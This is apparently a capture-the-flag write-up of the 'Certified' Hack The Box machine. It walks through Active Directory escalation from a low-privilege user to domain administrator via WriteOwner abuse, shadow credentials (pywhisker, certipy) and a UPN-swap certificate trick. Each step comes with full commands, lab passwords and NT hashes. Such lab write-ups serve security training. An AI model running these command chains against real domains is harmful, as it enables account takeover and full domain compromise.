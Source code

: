 ```yaml
---
description: 'Username: judith.mader Password: judith09'
---
```


# Certified

We start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Then i looked at the different shares and downloaded everything:

```
nxc smb 10.129.231.186 -u judith.mader -p judith09 -M spider_plus -o DOWNLOAD_FLAG=True
```

But nothing interesting so i went and looked at rpcclient and found some usernames:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

I put this in a list and launch my bloodhound collector to get e better look of the domain:

```
bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.129.231.186
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
neo4j console
#then i set creds and in another console 'bloodhound' as low level user
```

After uploading all of the jsons to bloodhound and marking judith as owned we can see she has writeowner on Managment@certified.htb

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

While looking at the query: Shortest Paths to High Value Targets, we start to understand we have to take control of MANAGEMENT\_SVC, the path finder was also very visual on what we need to do:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

> **WriteOwner** permission allows attackers to change object ownership in **Active Directory**, giving them full control to manipulate or take over the object.

Since i have poor knowledge on bloodyAD for the moment i went and found a nice cheat sheet:

{% embed url="https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad" %}

* In Active Directory, the **Owner** of an object can modify its **Access Control Entries (ACEs)**.
* Now, **judith.mader** can **modify permissions** on the Management group.

Since I have `WriteOwner`, I should **take ownership** first. This allows me to **modify group permissions** and escalate privileges further:

```
bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Since I **own the group**, I should **grant myself more useful permissions**. `WriteMembers` lets me **add myself** to the Management group

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Adding a user to a high-privilege group means they inherit **new permissions**. Now that I have `WriteMembers`, I can **add myself** to a powerful group. This could give me access to **sensitive accounts or systems**.

```
bloodyAD --host 10.129.231.186 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Now that i am in the group of management\_svc, I need **persistent access** to an **elevated account**. `management_svc` might have **high privileges**, so I use **PyWhisker** to gain access **without needing a password**.

**KeyCredentialLink** is an attribute used for **Azure AD and certificate-based authentication**. **Abusing it allows adding a rogue certificate** to an account (without needing its password). This lets the attacker **authenticate as that user** without triggering password resets or alerts.

{% embed url="https://podalirius.net/fr/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/" %}

{% embed url="https://github.com/ShutdownRepo/pywhisker/" %}

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

We can see that _A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools to &#x67;_&#x65;nerate a **Kerberos Ticket Granting Ticket (TGT)** for `management_svc`

{% embed url="https://github.com/dirkjanm/PKINITtools/tree/master" %}

**PKINIT (Public Key Cryptography for Initial Authentication)** allows authentication via **certificates** instead of passwords. Since we added our rogue certificate, we can now **request a TGT as `management_svc`**

Ok so i had a hard time using this tool so i switched to certipy using this documentation:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate" %}

> Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file

```
certipy cert -export -pfx p9YNJGan.pfx -password "VInZMo11EzVwyq17abYg" -out "unprotected.pfx"
sudo ntpdate -u 10.129.231.186
certipy auth -pfx unprotected.pfx -dc-ip 10.129.231.186 -username 'management_svc' -domain 'certified.htb'
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Just to be sure this works:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

So we look at what we can control and we see we have generic all on CA\_OPERATOR user:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Ok so i tried this command:

```
bloodyAD -u "management_svc" -h "a091c1832bcdd4677c28b5a6a1295584" -d "certified.htb" --host "10.129.231.186" set password --target "ca_operator" --new-password "Password1"
```

But from what i see, bloody ad does not take hashes, but it takes certificates so maybe i can craft a cert for ca\_operator ->

```
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>ca_operator:b4b86f45c6018f1b664f70805f45d8f2</p></figcaption></figure>

Now i saw this trick of Updating the UPN of the user to change it to admin, the `UserPrincipalName (UPN)` of `ca_operator` is changed to `administrator`. this tricks the **Certificate Authority (CA)** into issuing a certificate for `administrator` instead of `ca_operator`.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186 -pfx administrator.pfx
```

This gets a cert for `Administrator` thanks to the UPN change.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

But when i try to auth i get an error and i have no idea why

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After talking for a bit witg a friend about my situation i learned that i needed to restore ca\_operator’s UPN and after doing that i was able to use administrator.pfx to request for a TGT and get a Hash:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>
